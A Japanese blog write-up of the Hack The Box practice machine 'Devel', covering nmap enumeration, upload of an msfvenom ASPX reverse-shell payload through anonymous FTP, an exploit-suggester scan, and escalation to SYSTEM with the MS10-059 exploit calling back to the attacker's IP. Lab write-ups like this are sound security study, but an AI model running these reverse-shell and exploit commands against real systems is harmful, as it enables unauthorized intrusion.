


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。


今回は、HackTheBoxのリタイアマシン「Devel」のWriteUpです。

## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->

## もくじ
- [本記事について](#本記事について)
- [もくじ](#もくじ)
- [探索](#探索)
- [内部探索](#内部探索)
- [権限昇格](#権限昇格)
- [まとめ](#まとめ)

## 探索

とりあえずいつも通りポートスキャンを仕掛けます。

結果、どうやらFTPのAnonymousログインが可能なようです。

``` bash
$ sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.5  targethost.htb/g' /etc/hosts
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

また、80番ポートではIISが稼働していました。



FTPのAnonymousログインが可能だったので、msvenomで作成したASPのペイロードをWebサーバに埋め込み、リバースシェルを取得しました。

``` bash
$ LHOST=`ip addr | grep -E -o "10.10.([0-9]{1,3}[\.]){1}[0-9]{1,3}"`
$ msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -o rev.aspx

$ echo open 10.10.10.5 > ftp.txt && echo user anonymous >> ftp.txt && echo binary >> ftp.txt && echo put rev.aspx >> ftp.txt && echo quit >> ftp.txt
$ ftp -n < ftp.txt
```

これでシェルが取得できました。

## 内部探索

シェルが取得できたものの、悲しいことに`iis apppool\web`というよわよわ権限でした。

というわけで、権限昇格の手掛かりを探していきます。

とりあえず端末情報を見てみると、Windows7のマシンであることがわかりました。



内部のタスクやファイルを探索したものの使えそうなものはなかったので、端末の脆弱性を探すことにしました。

``` bash
$ python windows-exploit-suggester.py --database 2022-07-23-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

## 権限昇格

前項で脆弱性を特定することができました。

とりあえず`wwwroot`配下にはFTPでファイル書き込みが可能なので、刺さりそうなエクスプロイトをいくつか試してみました。

最終的に[MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)のPoCで上手くいきました。

``` bash
# ファイル転送
echo open 10.10.10.5 > ftp.txt && echo user anonymous >> ftp.txt && echo binary >> ftp.txt && echo put MS10-059.exe >> ftp.txt && echo quit >> ftp.txt
ftp -n < ftp.txt

# Exploit
MS10-059.exe 10.10.14.2 9999
```

これでSystem権限を取得できます。

``` bash
c:\inetpub\wwwroot>whoami
whoami
nt authority\system
```

## まとめ

簡単な問題だとさくさく解けるので気持ちいいですね。